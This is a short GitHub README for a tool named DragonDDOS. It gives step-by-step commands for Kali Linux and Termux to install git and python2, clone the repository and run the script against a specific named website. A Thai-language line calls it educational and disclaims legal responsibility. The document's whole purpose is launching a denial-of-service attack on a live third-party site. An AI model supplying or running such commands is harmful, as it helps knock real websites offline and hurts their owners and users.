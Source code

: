 # DragonDDOS

![image](https://user-images.githubusercontent.com/96361084/155261996-d09545ac-abff-4064-9fd2-7cb44fcaa0d5.png)

kali linux

sudo apt-get install git

sudo apt-get install python2

git clone https://github.com/Xsarjame/DragonDDOS

cd DragonDDOS

python2 dragonDDOS.py http://www.navinbcc.com

!!!!!!!!!!!!!!!ใช้เพื่อการศึกษาหากเกิดคดีความขอไม่รับผิดชอบ ใดๆทั้งสิ้น !!!!!!!!!!!!!!

termux

pkg install git

pkg install python2 

git clone https://github.com/Xsarjame/DragonDDOS

cd DragonDDOS

python2 dragonDDOS.py http://www.navinbcc.com
